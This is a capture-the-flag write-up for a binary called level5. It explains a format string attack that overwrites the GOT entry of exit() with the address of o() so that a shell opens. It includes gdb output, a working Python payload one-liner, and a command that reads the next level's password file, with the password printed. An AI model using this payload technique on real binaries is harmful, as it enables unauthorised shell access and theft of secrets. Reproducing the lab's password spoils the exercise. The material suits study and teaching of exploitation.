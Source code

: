 # Level5

In this binary we can see that function `o()` calls `/bin/sh` however it is not part of the execution flow     
We also notice that function `n()` called by `main` uses `printf` and `exit` 

Since RELRO (Relocation Read-Only) protection is off, we can use a *format string attack* to modify the *Global Offset Table*    
By replacing the .got.plt relocation address of `exit()` to `o()`, the `n()` function will call `o()` instead of `exit()` and open a shell prompt for us    

External function call -> PLT (Procedure Linkage Table) -> GOT (Global Offset Table)

First we must find `exit()` in the GOT
```
gdb level5
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
   0x080483d6 <+6>:	push   $0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
(gdb) p *0x08049838 
$1 = 134513622	; 0x80483d6 this is the exit relocation address in the GOT that we want to replace with o() address
```

```
python -c "print '\x08\x04\x98\x38'[::-1] + '%134513824d' + '%4\$n'" > /tmp/inj5
cat /tmp/inj5 - | ./level5 | tr -d " "
cat /home/user/level6/.pass
8d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

